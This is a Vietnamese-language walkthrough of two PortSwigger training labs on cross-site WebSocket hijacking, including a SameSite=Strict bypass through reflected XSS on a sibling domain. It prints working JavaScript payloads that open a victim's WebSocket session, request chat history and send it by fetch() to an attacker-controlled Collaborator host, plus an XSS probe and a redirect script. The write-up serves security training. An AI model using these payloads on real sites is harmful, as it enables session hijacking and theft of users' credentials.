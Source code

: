 ![image](https://github.com/user-attachments/assets/6e4d3254-584c-4a01-b040-6e7c51360761)🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**

🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**

WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**

Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**

Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**

Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**

Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**

Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**

Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

🧪 **Lab: SameSite Strict bypass via sibling domain**

🧠 **Mục tiêu**

Khai thác lỗ hổng Cross-site WebSocket Hijacking (CSWSH) và vượt qua cơ chế bảo vệ SameSite=Strict bằng cách sử dụng XSS từ domain anh em (cms-...) để đánh cắp lịch sử chat chứa thông tin đăng nhập nạn nhân.

🕵️‍♂️ **Phân tích kỹ thuật**

Ứng dụng có tính năng chat sử dụng WebSocket (/chat).

WebSocket không có CSRF token trong handshake → có thể bị chiếm quyền nếu vượt qua được SameSite cookie.

Cookie của ứng dụng được gán SameSite=Strict → chặn truy cập từ cross-site.

Tuy nhiên, domain cms-... là sibling domain trong cùng một "site" → không bị SameSite chặn.

cms-... chứa lỗ hổng reflected XSS trong form /login.
🧰 **Bước 1: Xác định XSS ở sibling domain**

Trong Burp Proxy, gửi yêu cầu đến một file JS/image → thấy header:
![image](https://github.com/user-attachments/assets/07117940-cc20-44b2-954c-202ec73e0861)
Truy cập domain đó → thấy form đăng nhập.

Gửi payload:

<script>alert(1)</script>

![image](https://github.com/user-attachments/assets/3c8f6d59-8f72-4270-a4b5-c6836b91dfad)

 => xác nhận có reflected XSS.

 Copy URL chứa payload XSS để sử dụng cho tấn công CSWSH(cross site websocket hijacking).

📡 **Bước 2: Viết script tấn công WebSocket**

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
URL-encode toàn bộ script trên → dán vào URL cms-.../login?username=....

Tạo script chuyển hướng người dùng sang URL XSS:

<script>
    document.location = "https://cms-<lab-id>.web-security-academy.net/login?username=<payload-encoded>&password=anything";
</script>

![image](https://github.com/user-attachments/assets/22dcb625-d9e4-491d-be1e-8ff3a50f943f)

🎯 **MỤC ĐÍCH:**

Khởi tạo kết nối WebSocket từ trình duyệt nạn nhân đến server chat, sử dụng session cookie của nạn nhân.

Gửi lệnh "READY" đến server, khiến nó phản hồi toàn bộ lịch sử chat (chứa tên đăng nhập và mật khẩu).

Gửi dữ liệu lịch sử chat đó ra ngoài, về máy chủ của kẻ tấn công (thông qua Burp Collaborator).

Do SameSite=Strict ngăn chặn gửi cookie khi truy cập từ một site khác, nên:

XSS trên sibling domain (cms-...) được dùng để thực thi JavaScript trong cùng "site" → cookie được gửi đúng cách → bypass thành công SameSite Strict.

✅ **Kết quả:**

Khi người dùng (nạn nhân) truy cập URL chứa XSS trong username, trình duyệt của họ:

Chạy script tấn công WebSocket (gửi "READY" → nhận chat history).

Do chạy từ cùng site, cookie được gửi theo.

Chat history chứa username/password → được gửi về attacker.

